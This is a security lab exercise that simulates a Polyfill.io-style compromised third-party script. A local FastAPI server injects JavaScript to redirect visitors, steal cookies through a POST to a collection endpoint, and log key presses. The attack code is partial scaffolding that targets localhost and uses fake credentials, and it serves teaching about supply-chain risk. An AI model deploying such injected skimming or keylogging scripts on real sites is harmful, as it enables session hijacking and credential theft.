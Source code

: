 ```yaml
---
title: Practice
---
```


This exercise puts you in a scenario similar to the real example found in `Polyfill.io`, where attackers exploited a widely used package to inject malicious code into applications. Here, you will focus on simulating the potential impact and explore different types of attacks. This practice highlights the risks and consequences of relying on third-party scripts.

## Environment Setup

For this exercise, we will use Python to create a server for our API. The server will simulate the behavior of a compromised third-party script by serving JavaScript code to a vulnerable application. Before we start, we will create a virtual environment to isolate the dependencies we need for this exercise.

**Virtual Environment:** A Python virtual environment is a self-contained directory that isolates different Python dependencies, allowing you to manage different versions of libraries for each project without conflicts.

```bash
# Create a virtual environment
python -m venv .venv

# Then activate the virtual environment

# On Windows
.venv\Scripts\activate

# On Unix or MacOS
source .venv/bin/activate
```

**Install Requirements:** This exercise uses external libraries and frameworks for the server and API. The main dependency we will need is FastAPI, a modern Python framework for creating APIs. FastAPI will be used to create a server that simulates the behavior of a compromised third-party script.

```bash
# Install FastAPI
python -m pip install "fastapi[standard]"
```

### The Vulnerable Program

The vulnerable program used in this exercise is called `index.html`. This program links an external script from the server `http://localhost:8000`, and you will explore how to send malicious code to exploit the application.

```html
<!-- Save this as index.html -->

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <!-- Demonstrates the risks of relying on third-party scripts -->
    <script src="http://localhost:8000"></script>
    <title>Document</title>
</head>
<body>
    <h1>Hello World!</h1>
</body>
</html>
```

### The Exploit Program

The exploit program used in this exercise is called `server.py`. This program sets up a server using FastAPI, which will serve JavaScript code to the vulnerable application. By simulating a malicious third-party script, this program demonstrates how attackers can exploit external dependencies.

```python
# Save this as server.py

from fastapi import FastAPI, Request, Response
from fastapi.middleware.cors import CORSMiddleware

app = FastAPI()

app.add_middleware(
    CORSMiddleware,
    allow_origins=["*"],  # Allow all origins; for stricter rules, specify origins
    allow_methods=["*"],  # Allow all HTTP methods
    allow_headers=["*"],  # Allow all headers
)


# Serves JavaScript to the vulnerable program
@app.get("/")
async def root():
    # Prepare the JavaScript code
    javascript_code = """\
    """
    return Response(content=javascript_code, media_type="application/javascript")
```

### Common Commands

In the following, we list some common commands for this exercise.

```bash
# Start the server for the API
fastapi dev /path/to/server.py

# To stop the server press CTRL+C to quit
```

## Task 1: Redirect the Client

In this task, we will simulate how an attacker might use malicious code to manipulate the vulnerable program. Your goal is to modify the variable `javascript_code` to redirect users to another website when the script is loaded. To do this, you can use the `window.location` object in JavaScript.

```javascript
window.location.href = 'https://www.example.com';
```

When you update `javascript_code`, start the exploit program and open the vulnerable program in a browser to observe how the malicious script affects the application. If it works, the client will see a different website.

```python
# Example JavaScript code
javascript_code = """\
function example() {
    console.log("Hello Exploit!");
}

// Call the function
example()
"""
```

## Task 2: Steal the Client's Cookies

In this task, we will simulate how an attacker might steal cookies from the vulnerable program. Cookies often store sensitive information which attackers can use to impersonate users or to gain unauthorized access. To simulate this attack, first update the vulnerable program to include cookies.

```html
<head>
    ...
    <!-- Simulates cookies with fake credentials -->
    <script>
        document.cookie = "sessionID=abc123fakeSessionID; path=/";
        document.cookie = "userToken=xyz789demoToken; path=/";
    </script>
    ...
</head>
```

Next, update the exploit program by adding a new endpoint that receives and logs the client's cookies. After making these changes, restart the server.

```python
# Endpoint to receive the client's cookies
@app.post("/post-cookies")
async def log_cookies(request: Request):
    client = request.client
    body = await request.json()
    print(f"{client=} {body=}")
    return {"message": "Cookie data received"}
```

With these changes, your goal is to modify the variable `javascript_code` to include malicious code that can steal the cookies from the client. To do this, you will need to include code to send a POST request to the server.

```javascript
async function example() {
    const cookies = ...; // Retrieve the cookies
    const data = ...; // Include the cookies
    try {
        const response = await fetch("http://localhost:8000/post-cookies", {
            method: "POST",
            headers: {
                "Content-Type": "application/json",
            },
            body: JSON.stringify(data), // Send the data
        });
        console.log(`Server response: ${response.status}`);
    } catch (error) {
        console.error(`Error sending cookies: ${error}`);
    }
}
```

When you update `javascript_code`, start the exploit program and open the vulnerable program in a browser to observe how the malicious script affects the application. If it works, the server will log the client's cookies.

## Task 3: Log the Client's Key Presses

In this task, we will simulate how an attacker might capture key presses from the vulnerable program. This is known as keylogging and is often used to record sensitive information entered by users, like passwords. To simulate this attack, first update the exploit program by adding a new endpoint.

```python
# Endpoint to receive the client's key presses
@app.post("/post-keys")
async def log_keys(request: Request):
    client = request.client
    body = await request.json()
    print(f"{client=} {body=}")
    return {"message": "Key data received"}
```

With these changes, your goal is to modify the variable `javascript_code` to include malicious code that can listen for and send key presses made by the client. To do this, you will need to listen for key presses to then send.

```javascript
document.addEventListener("keydown", async (event) => {
    // Prepare the key press data
    const keyPressed = { key: event.key };
    
    // Send the key press data to the server
    ...
});
```

When you update `javascript_code`, start the exploit program and open the vulnerable program in a browser to observe how the malicious script affects the application. If it works, the server will log the client's key presses.

